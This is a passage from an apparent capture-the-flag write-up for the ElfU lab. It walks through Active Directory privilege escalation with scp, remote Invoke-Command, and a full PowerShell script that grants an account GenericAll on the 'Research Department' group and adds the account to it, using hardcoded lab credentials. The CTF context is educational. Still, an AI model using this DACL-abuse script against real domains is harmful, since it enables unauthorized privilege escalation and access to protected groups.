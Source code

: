 Transfer this script to the ElfU server using `scp` and execute it using `Invoke-Command`

``` title="Local System"
scp -P 2222 Who_Has_WriteDacl.ps1 cauovojfjy@grades.elfu.org:~/
```
??? info "Screenshot"
    ![](image14.png)


``` powershell title="ElfU System"
Invoke-Command -ComputerName 10.128.1.53 -FilePath Who_Has_WriteDacl.ps1 -Credential $aCred -Authentication Negotiate
```
??? info "Screenshot"
    ![](image15.png)

Conveniently for us, the remote_elf account has WriteDacl to this group.

The next steps in the process is to give our user the GenericALL AD right to the group and then to add it to the group itself.  Again, referencing the sample scripts from Chris Davis' we can write a single script to perform both operations.

``` powershell title="Grant_GenericAll_and_Add_to_Group.ps1"
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "cauovojfjy"
$password = "Ufjeprxjh#"
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None

$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```
